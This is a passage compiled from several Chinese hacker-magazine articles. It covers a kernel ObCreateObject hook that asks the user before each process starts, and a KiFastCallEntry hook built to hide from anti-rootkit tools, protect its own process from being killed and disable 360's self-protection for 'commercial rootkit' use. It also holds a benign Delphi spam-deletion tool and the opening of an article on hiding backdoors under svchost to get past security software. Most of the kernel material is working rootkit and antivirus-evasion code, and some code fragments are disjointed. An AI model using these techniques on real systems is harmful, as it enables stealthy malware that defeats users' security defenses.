    PreviousMode, NULL, sizeof(EPROCESS), 0, 0,
    (PVOID*)&Process);
```

从中我们可以看出创建进程时 ObjectType 为 PsProcessType，接下来就是实现 Hook 了，代码如下：

```c
// Hook
void uinit()
{
    KIRQL oldIrql = KeRaiseIrqlToDpcLevel();

    __asm {
        cli
        push eax
        mov eax, cr0
        and eax, 0FFFEFFFFh
        mov cr0, eax
        pop eax
    }

    RtlCopyMemory(ProxyFuncData, HookFunc, 5);
    ProxyFuncData[5] = 0xe9;
    *(PULONG)(&ProxyFuncData[6]) = (ULONG)HookFunc - (ULONG)(&ProxyFuncData) - 5;

    *(PUCHAR)HookFunc = 0xe9;
    *(PULONG)((ULONG)HookFunc + 1) = (ULONG)FakeFunc - (ULONG)HookFunc - 5;

    __asm {
        push eax
        mov eax, cr0
    }
}
```

```c
or eax, 10000h
mov cr0, eax
pop eax
sti
}

KeLowerIrql(oldIrql);

uListCount = 0;
uIndex = 0;
}

void uUnInit()
{
    KIRQL oldIrql;

    KillList();

    oldIrql = KeRaiseIrqlToDpcLevel();
    __asm
    {
        cli
        push eax
        mov eax, cr0
        and eax, 0FFFEFFFFh
        mov cr0, eax
        pop eax
    }
    RtlCopyMemory(HookFunc, ProxyFuncData, 5);
    __asm
    {
        push eax
        mov eax, cr0
        or eax, 10000h
        mov cr0, eax
        pop eax
        sti
    }
    KeLowerIrql(oldIrql);
}
```

相信 Hook 大家都已经比较熟悉了，这里就不做过多的介绍了，继续往下走。我们要实现实时拦截就需要做到与 Ring3 的实时通信，用 Event 的方式是比较简单的，我们首先从 Ring3 中传入 Event，代码如下：

```c
switch (ulIoControlCode)
{
case IOCTL_SETEVENT:
{
    if (pIoBuffer == NULL || ulInSize < sizeof(HANDLE))
    {
        dprintf("Set Event Error\n");
        status = STATUS_INVALID_BUFFER_SIZE;
        break;
    }
    hEvent = *(HANDLE*)pIoBuffer;
    status = ObReferenceObjectByHandle(
        hEvent,
        GENERIC_ALL,
        NULL,
        KernelMode,
        (void**)&g_pEventObject,
        &objHandleInfo);
}
break;
}
```

使用全局变量 `g_pEventObject` 来保存得到的 Event。然后，我们想要把数据传回 Ring3 必须要有个结构，代码如下：

```c
typedef struct _CHProcessData {
    ULONG uProcessId;
    ULONG uThreadId;
    UCHAR szCHProcessName[33];
} CHProcessData;

typedef struct _RProcessData {
    ULONG index;
    CHProcessData pd;
} RProcessData;
```

接下来，因为可能同时会有多个进程被创建，为了避免多次创建进程时把原来保存的数据覆盖掉，便需要建立一个链表来保存数据，并且可以使用 Event 来唤醒和等待 Ring3 传回的数据。

```c
typedef struct _CHDataList {
    ULONG index;           // 索引
    KEVENT kEvent;         // 事件
    BOOLEAN bAllow;        // 是否允许创建
    CHProcessData pd;
    struct _CHDataList *next;
} CHDataList;

ULONG uListCount;
ULONG uIndex;

CHDataList* DataList;
CHDataList* dCurrList;

UCHAR ProxyFuncData[10];

BOOLEAN KeSleep(ULONG MillionSecond)
{
    NTSTATUS st;
    LARGE_INTEGER DelayTime;
    DelayTime = RtlConvertLongToLargeInteger(-10000 * MillionSecond);
    st = KeDelayExecutionThread(KernelMode, FALSE, &DelayTime);
    return NT_SUCCESS(st);
}

CHDataList* InsertList()
{
    CHDataList* tCurr;

    if (uListCount == 0)
    {
        DataList = (CHDataList*)kmalloc(sizeof(CHDataList));
        if (DataList == NULL)
            return NULL;
        tCurr = DataList;
        uIndex = 0; // 只有1个节点，就重置索引值
    }
    else
    {
        CHDataList* tList = DataList;
        while (tList->next != NULL)
        {
            tList = tList->next;
        }

        tList->next = (CHDataList*)kmalloc(sizeof(CHDataList));
        if (tList->next == NULL)
            return NULL;

        tCurr = tList->next;
    }

    uListCount++;
    uIndex++;

    KeInitializeEvent(&tCurr->kEvent, NotificationEvent, FALSE);
    tCurr->index = uIndex;
    tCurr->bAllow = FALSE;
    tCurr->next = NULL;

    return tCurr;
}

void DeleteList(CHDataList *tCurr)
{
    // 删除链表节点
    uListCount--;
    if (uListCount != 0)
    {
        if (DataList == tCurr)
        {
            DataList = DataList->next;
        }
        else
        {
            // 遍历检索链表
            CHDataList *tList = DataList;
            while (tList->next != tCurr)
            {
                tList = tList->next;
            }
            tList->next = tCurr->next;
        }
    }

    KeClearEvent(&tCurr->kEvent);
    kfree(tCurr);
}

void KillList()
{
    // 安全移除剩下链表
    while (uListCount > 0)
    {
        DataList->bAllow = TRUE;
        KeSetEvent(&DataList->kEvent, IO_NO_INCREMENT, FALSE);
        KeSleep(500);
    }
}
```

```c
/* Status = ObCreateObject(PreviousMode, PsProcessType, ObjectAttributes,
   PreviousMode, NULL, sizeof(EPROCESS), 0, 0, (PVOID*)&Process); */

if (ObjectType == *PsProcessType && g_pEventObject != NULL)
{
    BOOLEAN bAllow;
    CHDataList *tCurr = InsertList();

    if (tCurr == NULL)
        return STATUS_INVALID_HANDLE;

    // 设置基本信息
    tCurr->pd.uProcessId = (ULONG)PsGetCurrentProcessId();
    tCurr->pd.uThreadId  = (ULONG)PsGetCurrentThreadId();
    strcpy((char*)tCurr->pd.szCHProcessName,
           (const char*)PsGetProcessImageFileName(PsGetCurrentProcess()));

    dCurrList = tCurr;

    KeSetEvent(g_pEventObject, 0, FALSE);

    KeWaitForSingleObject(&dCurrList->kEvent, Executive, KernelMode, FALSE, NULL);

    // 是否允许创建
    bAllow = tCurr->bAllow;
    DeleteList(tCurr);

    if (bAllow == FALSE)
    {
        return STATUS_CTX_GRAPHICS_INVALID;
    }
}

return ProxyFunc(ProbeMode, ObjectType, ObjectAttributes,
                 OwnershipMode, ParseContext, ObjectBodySize,
                 PagedPoolCharge, NonPagedPoolCharge, Object);
```

对链表的处理看完了，我们看看在伪函数中的处理及一些相关的定义吧。还有一些和 Ring3 交互的过程，用来给 Ring3 获取数据和传回数据。

```c
#define ObCO_Parameters \
    __in KPROCESSOR_MODE ProbeMode, \
    __in POBJECT_TYPE ObjectType, \
    __in POBJECT_ATTRIBUTES ObjectAttributes, \
    __in KPROCESSOR_MODE OwnershipMode, \
    __inout_opt PVOID ParseContext, \
    __in ULONG ObjectBodySize, \
    __in ULONG PagedPoolCharge, \
    __in ULONG NonPagedPoolCharge, \
    __out PVOID *Object

NTKERNELAPI NTSTATUS ObCreateObject(ObCO_Parameters);

extern POBJECT_TYPE *PsProcessType;
typedef NTSTATUS (*ProxyFuncType)(ObCO_Parameters);

#define HookFunc ObCreateObject
#define ProxyFunc ((ProxyFuncType)ProxyFuncData)
#define FakeFunc FakeObCreateObject

NTSTATUS FakeObCreateObject(ObCO_Parameters)
{
    // ...
}
```

```c
case IOCTL_TEST:
{
    dprintf("[CPF] Call IOCTL_TEST");

    if (pIoBuffer == NULL || uInSize < sizeof(ULONG) * 2)
    {
        dprintf("IOCTL_TEST Error\n");
        status = STATUS_INVALID_BUFFER_SIZE;
        break;
    }

    tList = DataList;

    // 以索引为标志
    while (tList->index != ((PULONG)pIoBuffer)[0])
    {
        tList = tList->next;
    }

    tList->bAllow = ((PULONG)pIoBuffer)[1] != 0;
    KeSetEvent(&tList->kEvent, IO_NO_INCREMENT, FALSE);

    status = STATUS_SUCCESS;
    break;
}

case IOCTL_GETDATA:
{
    // ...
}
```

```cpp
if (pIoBuffer == NULL || uOutSize < sizeof(RProcessData)) {
    status = STATUS_INVALID_BUFFER_SIZE;
    break;
}

((RProcessData *)pIoBuffer)->index = dCurrList->index;
RtlCopyMemory(&((RProcessData*)pIoBuffer)->pd,
              &(dCurrList->pd), sizeof(CHProcessData));

status = STATUS_SUCCESS;
break;
```

```cpp
scanf("%*c");
return 1;

DWORD dwOutput;
HANDLE m_hEvent = CreateEvent(NULL, FALSE, FALSE, NULL); // 创建事件
DeviceIoControl(gh_Device, IOCTL_SETEVENT, &m_hEvent,
                sizeof(HANDLE), NULL, 0, &dwOutput, NULL); // 发事件给 Ring0

printf("IoControl code sent\n");
HANDLE hThread = CreateThread(NULL, NULL,
                              WaitThread, &m_hEvent, NULL, NULL);
scanf("%*c"); // 等待用户按下 Enter 键

UnloadDeviceDriver(ac_driverLabel); // 卸载驱动
return n;
```

看完 Ring0 的关键部分，我们再看看 Ring3 的关键部分吧。

```cpp
// 等待用户选择
DWORD WINAPI WorkThread(LPVOID lpParam)
{
    ULONG data[2];
    ULONG dwOutput = 0;
    RProcessData *pRpd = (RProcessData *)lpParam;
    char szInfo[512];
    wsprintf(szInfo, "PID:%d TID:%d\n 进程:%s\n\n 尝试创建进程，是否允许？",
             pRpd->pd.uProcessId, pRpd->pd.uThreadId, pRpd->pd.szCHProcessName);
    data[0] = pRpd->index;
    if (MessageBox(NULL, szInfo, "进程创建确认", MB_YESNO | MB_ICONQUESTION | MB_SETFOREGROUND) == IDYES)
        data[1] = 1;
    else
        data[1] = 0;

    delete pRpd;
    DeviceIoControl(gh_Device, IOCTL_TEST, data, 8, NULL, 0, &dwOutput, NULL);
    return 0;
}

DWORD WINAPI WaitThread(LPVOID lpParam)
{
    HANDLE m_hEvent = *(HANDLE *)lpParam;
    unsigned long i = 0;
    ULONG dwOutput = 0;
    RProcessData *pRpd;
    while (true) {
        i++;
        WaitForSingleObject(m_hEvent, INFINITE); // 等待 Ring0 事件通知
        pRpd = new RProcessData;
        DeviceIoControl(gh_Device, IOCTL_GETDATA, NULL, 0,
                        pRpd, sizeof(RProcessData), &dwOutput, NULL);
        HANDLE hThread = CreateThread(NULL, NULL, WorkThread, pRpd, NULL, NULL);
        printf("KeSetEvent called, %d\n", i);
        ResetEvent(m_hEvent); // 重置事件
    }
    return 0;
}

int main(int argc, char **argv)
{
    // 加载驱动
    if (InitDriver() == -1) {
        fprintf(stderr, "Failed to initialize driver.\n");
    }
}
```

这里我们要注意一下，在关闭程序时不能通过单击控制台右上角的红叉来关闭，我们要按 Enter 键，因为我们需要把驱动卸载，大家也可以修改代码来避免这个麻烦的问题，否则在重启前可能就无法创建进程了。


图 1


图 2

Ring3 代码在 VC6 下编译通过，Ring0 代码在 WDK7 + VS2010 下编译通过，Windows 7 32 位下调试通过（需要管理员权限）。

## 总结

通过这次的 Hook，相信大家一定对 Hook 有了更加深入的了解，我们用的这种方法与 Ring3 互交还可以推广应用到更多函数的 Hook，像注册表关键位置修改时需要用户确认等，这就交给读者们去进一步地探究了！

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动、汇编  
关键字：Hook、KiFastCallEntry

# 详解挂钩 KiFastCallEntry


文/图 胡文亮

看了《黑客防线》2010 年第 6 期鹿剑的《Ring0 检测中断及 KiFastCallEntry 钩子》一文，受益匪浅，但那篇文章貌似没有在挂钩 KiFastCallEntry 上花费笔墨，我这就详细说说如何挂钩 KiFastCallEntry 吧，算是对鹿剑文章的狗尾续貂。

KiFastCallEntry 算是一个很特殊的函数，特殊点倒不在于它没有普通函数应有的特征（比如结尾有个 ret），而是此函数为 Ring3 进 Ring0 的必经之地，Hook 了此函数等效于 Hook 了 SSDT/SSSDT 上的所有函数。本文详细剖析如何在 NT5 和 NT6 两种主流操作系统上挂钩 KiFastCallEntry，并提供一个在 NT5 上让 360 的 KiFastCallEntry 钩子失效的小技巧。

```asm
rdmsr
// 获取 KiFastCallEntry 地址
mov uKiFastCallEntryAddr, eax
xor ecx, ecx
Label1:
cmp ecx, 0x100
je Label3
mov edx, DWORD ptr [eax]
// 搜索特征码，获取要 Hook 的位置
cmp edx, 0x1C8B3F8B
je Label2
inc eax
inc ecx
jmp Label1
Label2:
mov HookAddr, eax
Label3:
popad
popfd
```

看了这一堆汇编代码，有些人可能要废话连篇了。本文用通俗的语言解释上述汇编代码的主要含义：Label1 与前面的代码用于获取 KiFastCallEntry 函数地址；Label1 与 Label2 之间根据特征码在 KiFastCallEntry+0x0 到 KiFastCallEntry+0x100 之间寻找挂钩地址；Label2 到 Label3 之间把 eax 的值保存到 HookAddr 中。

## 挂钩点的寻找

要挂钩 KiFastCallEntry，首先要获得 KiFastCallEntry 的地址，以及要 Hook 的地址。因为这个函数很特殊，挂钩函数是没有任何用处的，所以我们必须找到适当的挂钩点。

```asm
nt!KiFastCallEntry+0xcf:
80542606 8bf2          mov esi,edx
80542608 8b5f0c        mov ebx,dword ptr [edi+0Ch]
8054260b 33c9          xor ecx,ecx
...
nt!MmUserProbeAddress:
80542622 083a8010000   jae ...
```

框中的那两条指令就是我们的挂钩点，因为待 call 的函数地址保存在了 ebx 寄存器中。实现寻找挂钩点的代码如下：

```asm
_asm {
  pushfd
  pushad
  mov ecx, 0x17c
  ...
}
```

## 挂钩点的挂钩

这里使用了二级跳转，是为了防止被一些 ARK 发现挂钩 KiFastCallEntry 的内核模块，不过逃不过 XueTr 的检测。

```cpp
// 申请分配二级跳转内存
PushRetMem=(ULONG)ExAllocatePoolWithTag(NonPagedPool,6,MEM_TAG);
if ((PVOID)PushRetMem==NULL) {
    return status;
}
DbgPrint("PushRetMem=0x%08X",PushRetMem);
// 一级跳转地址
*(ULONG*)&JmpCode[1]=(ULONG)(PushRetMem)-(HookAddr+5);
// 二级跳转地址
*(ULONG*)&PushRetCode[1]=(ULONG)FakeKiFastCallEntry;
```

```cpp
// HOOK 返回地址
JMPRet=HookAddr+5;
// 提升中断请求级
oldIrql = KeRaiseIrqlToDpcLevel();
// 关闭中断
_asm
{
    CLI
    MOV EAX, CR0
    AND EAX, NOT 10000H
    MOV CR0, EAX
}

// 进行 HOOK 操作
RtlCopyMemory((PVOID)PushRetMem,PushRetCode,6);
RtlCopyMemory((PVOID)HookAddr,JmpCode,5);
// 开启中断
_asm
{
    MOV EAX, CR0
    OR  EAX, 10000H
    MOV CR0, EAX
    STI
}

// 恢复先前中断请求级
KeLowerIrql(oldIrql)
```

```cpp
popad
popfd
mov ebx,MyNtOpenThread
// 修改 NtOpenThread 为我们的代理函数
jmp [JMPRet];
Label4:

popad
popfd
mov ebx,MyNtUserPostThreadMessage
// 修改 NtUserPostThreadMessage 为我们的代理函数
jmp [JMPRet];
}
}
```

## 挂钩点前处理

处理的方式很简单，首先检查 ebx 是不是我们要处理的函数的地址，如果是，则把我们伪函数的地址放进 ebx。ebx 中的地址不仅可以是 SSDT 上函数的地址，还可以是 SSSDT 上函数的地址。所以开头时我才说“Hook 了此函数等效于 Hook 了 SSDT/SSSDT 上的所有函数”。

```cpp
// HOOK KiFastCallEntry 过滤函数
__declspec(naked)void FakeKiFastCallEntry()
{
    _asm
    {
        pushfd
        pushad
        mov edi,dword ptr [edi]
        mov ebx,dword ptr [edi+eax*4]
        // 比较是否为 NtOpenProcess
        cmp OldNtOpenProcess,ebx;
        je Label1
        // 比较是否为 NtDuplicateObject
        cmp OldNtDuplicateObject,ebx;
        je Label2
        // 比较是否为 NtOpenThread
        cmp OldNtOpenThread,ebx;
        je Label3
        // 比较是否为 NtUserPostThreadMessage
        cmp OldNtUserPostThreadMessage,ebx;
        je Label4
        popad
        popfd
        mov edi,dword ptr [edi]
        mov ebx,dword ptr [edi+eax*4]
        jmp [JMPRet];

Label1:
        popad
        popfd
        mov ebx,MyNtOpenProcess
        // 修改 NtOpenProcess 为我们的代理函数
        jmp [JMPRet];
Label2:
        popad
        popfd
        mov ebx,MyNtDuplicateObject
        // 修改 NtDuplicateObject 为我们的代理函数
        jmp [JMPRet];
Label3:
        popad
        popfd
        mov ebx,MyNtOpenThread
        // 修改 NtOpenThread 为我们的代理函数
        jmp [JMPRet];
```

### 伪函数的处理

伪函数的处理就是怎样过滤参数实现进程保护。由于本文的重点是讲如何挂钩 KiFastCallEntry，而不是如何实现进程保护，所以这里只贴出一段代码，详细代码请从黑防官网上下载（从代码中可以看出跟直接 SSDT/SSSDT HOOK 是一样的）。

```cpp
BOOL MyNtUserPostThreadMessage(DWORD idThread,UINT Msg,WPARAM wParam,LPARAM lParam)
{
    PEPROCESS pcmp=NULL;
    PETHREAD tcmp=NULL;
    NTSTATUS st=STATUS_UNSUCCESSFUL;
    BOOL rt=FALSE;
    st=PsLookupThreadByThreadId((HANDLE)idThread,&tcmp);
    if (NT_SUCCESS(st))
    {
        pcmp=IoThreadToProcess(tcmp);
        if(pcmp==ppep)
            rt=FALSE;
        else
            rt=OldNtUserPostThreadMessage(idThread,Msg,wParam,lParam);
    }
    else
    {
        rt=FALSE;
    }
    return rt;
}
```

### 测试的效果

PsNull、冰刃都检测不到我们的挂钩模块，XueTr 才能检测到，而且 XueTr 还把我们二级跳转的地址检测出来了。任务管理器无法结束我们的进程，如图 1 所示（证明我们在 FakeKiFastCallEntry 的处理生效了，本文的目的不是进程防杀。我还提供了四个 Ring3 杀进程的小程序，大家可以到黑防官网下载，防杀效果请自行测试）。


```asm
lkd> u 805425ff
nt!KiFastCallEntry+0xcf:
805425ff 64ff0538060000    inc dword ptr fs:[638h]
80542606 8bf2              mov esi,edx
80542608 8b5f0c            mov ebx,dword ptr [edi+0Ch]
8054260b 33c9              xor ecx,ecx
8054260d 8a0c18            mov cl,byte ptr [eax+ebx]
80542610 e9cb0a2d09        jmp 898130e0
...
```

```c
MOV EAX, CR0
OR EAX,10000H
MOV CR0, EAX
STI
...
KeLowerIrql(oldIrql);
KeReleaseSpinLock(&f_spinlock, r_oldirql);
DbgPrint("KiFastCallEntry=0x%08X",uKiFastCallEntryAddr);
DbgPrint("HookAddr=0x%08X",HookAddr);
status=STATUS_SUCCESS;
```

## 挂钩方法的改进

## 让 360 的自我保护和主动防御彻底失效

我在虚拟机测试的时候成功了，但在真机测试时却蓝屏了。根据经验是挂钩代码处理不当导致。随后对挂钩部分代码做了改进（锁定内存页并使用自旋锁），并在多核机器上测试通过，没有蓝屏。

360 安全卫士会对钩子进行保护，检测并尝试恢复。若直接结束或删除 360，往往不适用于商业 Rootkit 场景，因此更好的方式是“有钩似无钩”。执行完 FakeKiFastCallEntry 后跳转到挂钩地址 +10，而不是 +5，从而让其自保护逻辑失效。

```c
// 申请分配二级跳转内存
PushRetMem=(ULONG)ExAllocatePoolWithTag(NonPagedPool,6,MEM_TAG);
...
MmProbeAndLockPages(pMdl,KernelMode,IoWriteAccess);
...
_cli
MOV EAX, CR0
AND EAX, NOT 10000H
MOV CR0, EAX
...
RtlCopyMemory((PVOID)PushRetMem,PushRetCode,6);
RtlCopyMemory((PVOID)HookAddr,JmpCode,5);
```

```c
__declspec(naked) void FakeKiFastCallEntry()
{
  __asm {
    mov edi,dword ptr [edi]
    mov ecx,dword ptr [edi+eax*4]
    sub esp,ecx
    shr ecx,2
    jmp [MyJmpRet];
  }
}
```

## 在 NT6 系统上挂钩 KiFastCallEntry

在 NT6 系统上，KiFastCallEntry 跟 NT5 不同，反汇编代码如下所示：

```asm
nt!KiFastCallEntry+0xce:
840813ce 64ff05b0060000  inc dword ptr fs:[6B0h]
840813f5 8bf2            mov esi,edx
840813f7 33c9            xor ecx,ecx
840813f9 8b570c          mov edx,dword ptr [edi+0Ch]
...
84081409 8bfc            mov edi,esp
8408140b 3b351c671a84    cmp esi,dword ptr [nt!MmUserProbeAddress]
84081411 0f832e020000    jae nt!KiSystemCallExit2+0xa5 (84081645)
```

要 call 的地址放在了 edx 里，染成红色的两条指令变成了 6 个字节。如果要挂钩，再按照老方法做就不方便了，这次我按照 360 的做法，修改染成绿色的两条指令为一条 jmp。由于流程差不多，我就不贴出全部代码了，只着重说说跟在 NT5 上挂钩不同的地方。  
一是特征码变了，要把前面贴出的搜索 KiFastCallEntry 的代码的特征码改成 0xe9c1e12b。二是挂钩点的处理变了，改成如下所示：

```cpp
// HOOK KiFastCallEntry 过滤函数
__declspec(naked) void FakeKiFastCallEntry()
{
    __asm {
        // 先执行原指令
        sub esp, ecx
        shr ecx, 2
        cmp OldNtOpenProcess, edx
        je Label1
        cmp OldNtDuplicateObject, edx
        je Label2
        cmp OldNtOpenThread, edx
        je Label3
        cmp OldNtUserPostThreadMessage, edx
        je Label4
        jmp [JMPRet]
Label1:
        mov edx, MyNtOpenProcess
        jmp [JMPRet]
Label2:
        mov edx, MyNtDuplicateObject
        jmp [JMPRet]
Label3:
        mov edx, MyNtOpenThread
        jmp [JMPRet];
Label4:
        mov edx, MyNtUserPostThreadMessage // 修改 NtUserPostThreadMessage 为我们的代理函数
        jmp [JMPRet];
    }
}
```

测试效果如图 2 所示，达到了和 NT5 下相同的效果。


图 2

## 不足之处

在某些时候，普通的 SSDT HOOK 能导致我们的 KiFastCallEntry 钩子失效，但是不会导致 360 的 KiFastCallEntry 钩子失效，是什么原因我现在还不是很清楚，希望感兴趣的人和我一起讨论，共同进步。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：Delphi  
关键字：Delphi、反爆吧

# Delphi 制作简单的反爆吧工具

文/By ForDream

相信“爆吧”这个词大家并不陌生，百度贴吧作为全国规模比较大的一个开放式交流平台，难免有一些别有用心的人用来发广告或者不良信息，甚至对吧主进行一些报复性的爆吧行为。

所以，在这里我就简单地用 Delphi 制作一个反爆吧工具。先说明一下我的测试环境：Delphi 2010 + Windows 7。  
这里因为涉及网络操作，而 VCL 类库提供了大量的控件，所以我就选择了 Indy 中的 IdHttp 控件作为主要的通信组件（Indy 10.5.5），ListView 作为主要的数据显示。另外因为反爆吧需要进行一些权限操作（删帖），所以需要使用百度的账号登录，并且具有该贴吧相应的管理权限（最低小吧主）。同时由于百度登录采用了 HTTPS 协议，所以如果需要通过 SSL 验证则需要外带两个 DLL 文件（代码中附带）。

那么下面开始正式的内容了，因为我在代码中的注释比较详细，所以这里着重讲一些方法和技巧，代码就不解释了。

## 前奏：构思

写程序一般写出来的质量都不会很高。接下来谈一下我的构思：首先自己定义一个“百度”类，这个类用于登录、看帖、删帖等操作，把相关操作封装到一个类中，便于后续修改和调用。于是我定义了下面一个类。

```pascal
type
  TBaiDuTb = class(TObject)
  protected
    pTbInfo: TTbInfo;
    pHttp: TIdHTTP; // 用于网络相关操作
    pSsl: TIdSSLIOHandlerSocketOpenSSL; // 用于 SSL 验证
    pUser: string; // 登录的用户名
    pLogined: Boolean; // 是否成功登录
    pThread: Cardinal; // 扫描的线程数
    pKeyWord: TStringList; // 禁止出现的关键字列表
    pCriticalSection: TRTLCriticalSection; // 临界区

    function CheckPower(Cardinal): virtual;
  const
    FileNotFind = '指定的文件不存在';
  public
    constructor Create(KeyWordFilePath: string); overload;
    constructor Create(KeyWordFilePath: string; MaxThread: Cardinal); overload;
    destructor Destroy; override;
    procedure Free;

    function Login(AUser, APassWord: string): Boolean;
    function GetTbInfo(TbName: string): Boolean;
    function DeleteTb(sTids, TbName: string): Boolean;

    property Http: TIdHTTP read pHttp write pHttp;
    property LoginUser: string read pUser;
    property TbInfo: TTbInfo read pTbInfo;
    property Logined: Boolean read pLogined;
    property ActiveThread: Cardinal read pThread write pThread;
    property KeyWord: TStringList read pKeyWord write pKeyWord;
  end;
```

具体解释在注释中已经较详细。定义好百度类后，还需要考虑批量删帖场景。单线程效率不足，因此定义线程类用于高速获取帖子列表。登录后 Cookies 中会写入 Session，会话有效时服务端会认为操作合法，所以后续建立删帖线程用于自动删帖。

## 第一步：登录

这里使用 `IdHttp` 而非常见 `WebBrowser` 组件。原因是 `WebBrowser` 响应慢、内存占用大且有泄漏问题；本程序不需要渲染页面，只关注执行速度。`IdHttp` 不解析脚本、不加载图片等多媒体，因此更快。百度登录页地址为 `https://passport.baidu.com/?login`。可通过抓包得到登录方法（示例使用 Firefox + HttpFox）。

首先打开百度登录页面，然后打开 HttpFox，如图 1 所示。


图 1

单击 Start 按钮，回到浏览器输入用户名和密码并登录。再回到 HttpFox，出现如图 2 所示界面。


图 2

这里有我们需要的各种信息，具体实现代码如下（`Http` 为 `TIdHttp` 对象）：

```pascal
function TBaiDuTb.Login(AUser, APassWord: string): Boolean;
const
  Referer='https://passport.baidu.com/?login...';
  LoginInfoA='tpl=mn&...&password=';
  LoginInfoB='&safeflg=0&username=';
  LoginInfoC='&verifycode=';
  LoginURL='https://passport.baidu.com/?login';
  CheckSuccessWord='百度个人中心登录';
var
  sPostData: TStringList;
  Return: string;
begin
  try
    if not Logined then
    begin
      sPostData := TStringList.Create;
      if (AUser='') or (APassWord='') then
        Result := False
      else
      begin
        Http.Request.Referer := Referer;
        sPostData.Add(LoginInfoA + APassWord + LoginInfoB + AUser + LoginInfoC);
        Return := Http.Post(LoginURL, sPostData);
        pLogined := Pos(Return, CheckSuccessWord) > 0;
        Result := pLogined;
      end;
    end;
  finally
    sPostData.Free;
  end;
end;
```

```pascal
end;
except
  raise Exception.Create('Login 方法出现异常');
end;
end;
```

```pascal
RegReplace(StringReplace(sWrite, '&nbsp;', '', [rfReplaceAll]), RegReplaceTag, '', sWrite);
/**********加载信息**********/
WtrAndLst.Add(sWrite + '=' + sLast);
ClkAndRly.Add(sClick + '=' + sReply);
IdAndTitle.Add(sTid + '=' + sTitle);
...
finally
  sEveryTbs.Free;
  Ck.Free;
end;
```

这段代码本身没有什么很难理解的地方，不过着重讲一下 try…finally…end；和 try…except…end；的区别，很简单的一段代码就可以解释了：

```pascal
try
  try
    raise Exception.Create('ErrorMessage'); //故意抛出一个异常
  finally
    ShowMessage('finally'); //这里显示这个对话框
  end;
except
  ShowMessage('except'); //同时这个也显示了
end;
```

这就说明这个异常是 except 捕获到的，finally 只能是忽略异常，并不能将其处理掉。

## 第二步：显示数据

登录做好了，总要能显示数据吧？不然登录又有什么意义呢？因为没有使用 WebBrowser，IdHttp 获得 HTML 代码，于是就需要分析 HTML，这里我使用了正则进行分析。

```pascal
procedure AnalyzeTbs(const Html: string; var TbInfo: TTbInfo);
const
  RegEveryTb = '<tr.*?tid="\d*?"...';
  RegTid = '(?<=tid=")\d*?(?=")';
  RegClkAndRly = '(?<=<td\x20nowrap>)\d*?(?=</td>)';
  RegWriterAndLast = '<td nowrap>.*?</td>';
  RegReplaceTag = '<.*?>';
var
  RegTitle: string;
  kCount: Cardinal;
  sEveryTbs, Ck: TStringList;
  sTid, sTitle, sClick, sReply, sWrite, sLast: string;
begin
  ...
end;
```

大致分析的思路是：先获得每一行的信息，然后再从这每一行的信息中分离出标题、作者等信息。这段代码中的 RegTest 和其他 Reg** 函数是我以前用正则时自己写的一些小函数，方便自己使用。

## 第三步：删帖

具体实现的方法同登录相似，区别就是重新分析一下发送了什么数据而已，这里就不啰嗦了。

## 第四步：自动删帖

所谓“反爆吧”，最终还是要人力操作显然是不现实的，当然需要软件来帮助我们删帖啦。至于删帖的细节和第三步相同，只不过程序里维护一个 KeyWordList，将帖子的标题与这个关键字列表进行对比，一旦有符合的则删除。这里稍微贴一点关于对比的代码：

```pascal
var
  TrdDelTb: TDelTbs;
  sTitle: string;
  nLoop: Cardinal;
begin
  Baidu.GetTbInfo(Baidu.TbName); //刷新帖子列表
  Baidu.KeyWord.Delimiter := '|';
  for nLoop := 0 to Baidu.TbInfo.IdAndTitle.Count - 1 do
  begin
    sTitle := Baidu.TbInfo.IdAndTitle.ValueFromIndex[nLoop];
    if RegTest(sTitle, Baidu.KeyWord.DelimitedText, sTitle) then
    begin
      TrdDelTb := TDelTbs.Create(...);
      TrdDelTb.Resume;
      ShowTips('删除帖子...' + sTitle);
    end;
  end;
end;
```

## 后记

总的来说整个程序难度并不大，最重要的是动手制作前要先规划好，需要什么功能，应该如何实现。在这个程序上还可以简单地添加其他功能，例如回帖、发帖、管理功能（有权限的话），难度都不大。并且这个程序只能针对单一贴吧进行自动维护。如果要修改成可以针对多个贴吧的管理，只需要把自动删帖的函数放到 TBaiDu 这个类里，然后串联多个实例即可。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：服务、svchost

# 利用 svchost 服务启动程序方法及测试

文/图 masepu

## 编写目的

svchost 是从动态链接库中运行的服务的通用主机进程名称，是 Windows 2000 后操作系统中不可或缺的重要进程，它能够随着系统的启动而启动，且具有其他程序所不具备的特殊功能和权限，因此本文希望能够通过 svchost 程序来实现自启动程序的功能，以此来隐藏运行后门程序，并逃避大量防护软件的监控和拦截，顺利连接网络。在此我对利用 Windows 系统 svchost 服务启动程序的方法进行了一些分析和测试，希望与大家共同研究和探讨。

## 基本概念

svchost 文件位于“%systemroot%\system32”目录下，在 Windows 系统启动时，svchost.exe 会检查注册表中相应的位置以构建需要加载的服务列表，最后由 svchost 统一进行启动。在 Windows 操作系统中，进程可以分为独立进程和共享进程两种，svchost 属于共享进程。随着 Windows 系统服务的增多，为了节省系统资源，减少资源消耗，便于统一控制，微软把更多的系统内置服务以共享进程方式交由 svchost 启动。但 svchost 进程只作为服务宿主，并不能实现任何服务的功能，即它只能提供条件让其他服务在这里被启动，而其自身却不提供任何服务，需要 svchost 启动的服务必须以动态链接库形式实现，它们把可执行程序指向 svchost，由 svchost 调用相应服务的动态链接库来启动服务。正常的 Windows 系统中会有多个 svchost 进程同时运行，要了解本机中运行了几个 svchost 进程，并且这些 svchost 开启了哪些服务正在运行，我们可以使用 tasklist /svc 来查看，如图1所示。

## 编写思路

很多安全防护软件为了提高效率和避免误报，对于 Windows 系统中存在的重要系统程序运行和访问网络等行为一般都是默认放行的，特别是 svchost 程序，其在系统中会有多个实例运行，每个实例会启动一到多个数量不等的服务，且其中的很多服务都是 Windows 操作系统中必不可少的重要服务。各类防护软件为了保证系统正常运行，必然会对 svchost 访问网络等行为予以放行，因此利用 svchost 来启动后门程序具有隐藏安全的特点。

